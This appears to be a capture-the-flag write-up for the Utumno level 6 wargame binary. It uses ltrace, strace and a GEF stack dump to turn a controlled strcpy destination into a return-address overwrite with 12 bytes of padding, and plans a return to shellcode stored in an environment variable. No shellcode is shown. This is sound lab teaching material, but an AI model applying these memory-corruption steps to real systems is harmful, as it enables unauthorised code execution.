 ```bash
utumno6@utumno:/tmp/tasks/utumno6$ ltrace /utumno/utumno6 -1 deadbeef aaaa
__libc_start_main(0x80490cd, 4, 0xffffd3f4, 0 <unfinished ...>
malloc(32)                                     = 0x804c1a0
strtoul(0xffffd57a, 0, 16, 0x804c1a0)          = 0xdeadbeef
strtoul(0xffffd577, 0, 10, 0x804c1a0)          = 0xffffffff
strcpy(0xdeadbeef, "aaaa" <no return ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```

Running the binary using `ltrace`, we can see that using **-1** in `argv[1]` and the address **deadbeef** in `argv[2]`, we can control the address that the function call to `strcpy()` attempts to write to.\
At this point there are two things we can attempt to do., The first is to use `strcpy()` to write an arbitrary address to the **ESP** which would then run whatever our arbitrary address is pointed to. The second, is to point `strcpy()` to the location outside of the table where `argv[2]` is written to, and the continue to write bytes onto the stack until we overwrite the return address.

I found the second option to be more reliable, although it sounds complicated it works every time.

```bash
gef> run -1 aaaa bbbb
───────────────────────────────────────────────────────────────────────────
gef>  x/400xw $esp-100
0xffffd284:     0x00000000      0x00050030      0x00000010      0xf7ffcfe8
0xffffd294:     0x00000307      0x0804828c      0x0804b260      0x08048360
0xffffd2a4:     0xf7fade34      0xffffd3f8      0xf7d872ac      0xf7e2f170
0xffffd2b4:     0xf7dcbfd6      0xffffd568      0x00000000      0xf7fade34
0xffffd2c4:     0xffffd3f8      0xf7ffcb60      0xffffd328      0xf7fdabb0
0xffffd2d4:     0xffffd570      0xf7e2f170      0x0000aaaa      0xf7ffda20
0xffffd2e4:     0x00000010      0x08049264      0x0000aaaa      0xffffd570
0xffffd2f4:     0x0000aaaa      0x00000000      0x00000000      0xffffffff
```
We can see that `argv[2]` is written at the address **0xffffd2d4 + 8** (**0xffffd2dc**). We can tell `strcpy()` to write at this address, and we will continue to write more bytes onto the stack until we overwrite the return address.

```bash
utumno6@utumno:/tmp/tasks/utumno6$ strace /utumno/utumno6 -1 ffffd2dc AAAABBBBCCCCDDDDEEEE
execve("/utumno/utumno6", ["/utumno/utumno6", "-1", "ffffd2dc", "AAAABBBBCCCCDDDDEEEE"], 0x7fffffffe308 /* 28 vars */)
[ Process PID=1006928 runs in 32 bit mode. ]
{SNIPPED}
--- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x44444444} ---
+++ killed by SIGSEGV (core dumped) +++
Segmentation fault (core dumped)
```
The return address is overwritten with **0x44444444** (**DDDD**) this means we need 12-bytes of padding before we overwrite the return address.\
Now we need somewhere to return to, such as shellcode in an environment variable.

### Exploit:
We can put shellcode into an environment variable, find the address of the environment variable on the stack, and overwrite the return address with the address of the shellcode.
